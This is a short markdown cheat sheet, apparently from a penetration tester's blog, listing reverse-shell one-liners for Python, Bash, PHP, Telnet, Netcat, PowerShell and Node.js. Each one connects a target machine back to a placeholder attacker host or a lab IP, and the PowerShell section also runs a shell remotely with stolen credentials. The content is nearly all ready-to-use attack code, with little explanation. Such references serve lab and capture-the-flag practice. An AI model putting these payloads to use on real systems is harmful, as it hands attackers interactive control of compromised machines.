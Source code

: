 ```yaml
---
description: >-
  Reverse Shells
title:  Reverse Shells              # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence,  Reverse Shells]                     # Change Templates to Writeup
tags: [persistence, reverse shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_IP>",<attacker_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

### PHP
```php
# Example 1
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'");?>
# Example 2
php -r '$sock=fsockopen(“<attacker_IP>”,<attacker_PORT>); exec(“/bin/sh -I
<&3 >&3 2>&3”);'
```
Example:
[[Fulcrum#^e70b79]]

### Telnet
```bash
telnet <attacker_IP> 4444 | /bin/bash | telnet <attacker_IP> 4445
```

### Netcat
```bash
nc <attacker_IP> <attacker_PORT> -e /bin/sh
```

### Netcat w/o “-e” option
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -I 2>&1 | nc <attacker_IP> <attacker_PORT> > /tmp/f
```

### Powershell

From a non-powershell cli, we can execute our reverse shell with this command:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.16.3",2345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
If we are on a powershell cli, we can execute this one instead:
```powershell
Invoke-Command -ComputerName file.fulcrum.local -Credential $Creds -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.16.3',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:rev-powershell)

### Node JS
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Firefox Plugin
An excellent plugin to craft different payloads as Reverse Shells directly from firefox:
[hacktools](https://addons.mozilla.org/es/firefox/addon/hacktools/)

